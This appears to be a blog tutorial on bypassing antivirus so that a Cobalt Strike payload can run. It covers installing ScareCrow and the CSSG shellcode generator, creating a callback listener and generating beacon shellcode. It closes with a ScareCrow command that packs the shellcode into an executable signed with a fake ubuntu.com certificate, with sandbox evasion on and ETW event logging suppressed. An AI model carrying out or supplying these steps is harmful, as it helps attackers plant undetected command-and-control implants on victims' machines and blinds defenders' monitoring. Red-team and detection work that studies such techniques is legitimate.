```yaml
---
title: "Bypassing AV using ScareCrow"
layout: post
---
```


This post demonstrates how to bypass AV so you can run your Cobalt Strike payload.

### Sources
https://github.com/optiv/ScareCrow
https://github.com/RCStep/CSSG


## Installing ScareCrow

First clone the git repository

![img1](https://imgur.com/sjvDX3e.png)

In order to build ScareCrow, you must have `Go` installed along with the following dependencies.

  ```
sudo apt install golang openssl osslsigncode mingw-w64
  ```

Once installed, build ScareCrow.

![build](https://imgur.com/MKCK0Xj.png)



## Installing CSSG

For the next part, we must install the Cobalt Strike Shellcode Generator

```
sudo apt install python2.7 python3.9
python -m pip install pycryptodome
python3 -m pip install pycryptodome
py -3 -m pip install pycryptodome
py -2 -m pip install pycryptodome
```

Download [CSSG](https://github.com/RCStep/CSSG) and move it to somewhere accessible.

Open the script manager by clicking "Cobalt Strike" in the top left of the client then selecting "Script Manager".

Press "Load" and open "CSSG_load.cna" as shown

![load](https://imgur.com/yIHwdhc.png)

We now need to create a listener in order to generate the shellcode to call back to it.
Press the headphones icon and setup your listener as needed.

![listener](https://imgur.com/7GCE9xd.png)

Once loaded, a new option should be added to the top menu, called "Shellcode".

![shellcode](https://imgur.com/LEY6tiS.png)

Open the Shellcode GUI and generate your payload, encryption such as XOR/AES is optional

![gen](https://imgur.com/zveOFuW.png)



## Using ScareCrow to generate the payload

Once you have made your shellcode, we can now use ScareCrow.

`./ScareCrow -I /path/to/shellcode -sandbox -noetw -domain www.ubuntu.com`

This command will convert our Cobalt Strike shellcode into an executable, with a fake certificate signed by "ubuntu.com", howver you can use `-vaid` to provide a valid code signing certificate.

The sandbox flag enables sandbox evasion by using `IsDomainJoined` calls, and the noetw flag disbaled ETW patching which prevents ETW events for being generated

https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing

![scarecrow](https://imgur.com/zmiuFGb.png)
